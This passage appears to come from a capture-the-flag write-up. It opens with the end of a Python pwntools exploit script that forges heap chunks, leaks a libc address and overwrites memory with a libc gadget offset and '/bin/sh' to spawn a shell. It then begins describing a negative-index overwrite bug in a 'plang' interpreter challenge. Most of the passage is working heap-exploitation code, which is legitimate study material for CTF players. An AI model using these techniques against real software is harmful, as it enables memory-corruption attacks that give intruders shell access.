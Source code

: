 ```python
add(5,1,"a"*0x20,"a"*0x10,0x70,"a"*0x70)
gogo = False
add(6,1,"a"*0x20,"a"*0x10,0x10,"a"*0x10)
go(5)
remove(5)
remove(6)

fake = flat( heap+0x720,0x70,p32(1),"a"*0x30+p32(0),0,0,heap+0x420)
add(7,1,"a"*0x20,"a"*0x10,0x70,fake.ljust(0x70,"\x00"))
add(8,1,"a"*0x20,"a"*0x10,0x500,"a"*0x500)
add(9,1,"a"*0x20,"a"*0x10,0x10,"a"*0x10)
remove(8)

r.recvuntil("Ciphertext:")
r.recvline()
x = r.recvline()[:-1].split()
ans = ""
for xx in x:
        ans+= chr(int(xx,16))
data = aes_decrypt(ans,"a"*0x20)[:8]
libc = u64(data)-0x3ebca0
print hex(libc)


gogo = True
add(5,1,"a"*0x20,"a"*0x10,0x70,"a"*0x70)
gogo = False
add(6,1,"a"*0x20,"a"*0x10,0x10,"a"*0x10)
add(7,1,"a"*0x20,"a"*0x10,0x100,p64(heap+0xf10)+p64(0)+p64(0)*4+p64(libc+0x10a38c)+"/bin/sh\x00"+p64(0)*0x18)
go(5)
remove(5)
remove(6)
fake = flat( heap+0xf38,0x70,p32(1),"a"*0x30+p32(0),0,0,heap+0xf00)
add(7,1,"a"*0x20,"a"*0x10,0x70,fake.ljust(0x70,"\x00"))


import time
time.sleep(2)
r.interactive()

```
### plang

We are given some files, including one `plang` binary and one PoC code. The `plang` binary acts like an interpreter. And the PoC code can make `plang` get segmentation fault, which points out the direction to the vulnerability in `plang`.

#### Vulnerability

It should be easy to find out that we can use negative indexes to overwrite other objects. And it's obvious that we can only modify the objects at lower address, which means we can only modify the earlier objects.
